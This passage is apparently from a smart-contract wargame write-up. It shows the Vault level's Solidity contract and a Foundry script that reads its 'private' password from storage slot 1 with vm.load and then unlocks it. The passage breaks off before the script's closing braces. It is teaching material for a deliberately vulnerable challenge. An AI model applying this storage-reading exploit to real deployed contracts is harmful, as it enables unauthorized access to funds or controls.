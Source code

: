 **To run the script**

```
$ source .env
$ forge script script/Level7Solution.s.sol:Level7Sol --rpc-url $RPC_URL --broadcast
```

## Vault

**Level8.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

**Goal:**

We need to unlock the vault.

**Explanation**:

1. We can simply call the `unlock()` function with password. But the password was not publicly accessible.
2. Declaring a variable `private` doesn’t mean that no one can read that variable. Only the other contracts which interacts with it won’t able to view that variable.
3. We can solve this by two ways, one is using with foundry `vm.load` and another is using with blockchain explorer(Sepolia Etherscan). 
4. I used  `vm.load`. in foundry.

**Level8Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level8.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level8Sol is Script{
     
     Vault public level8 = Vault(0x826c120B1C2b48fd2ad8C7015BcbfFe33A851E7A);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        bytes32 password = vm.load(address(level8), bytes32(uint256(1)));
        console.logBytes32(password);
        level8.unlock(password);

        vm.stopBroadcast();
```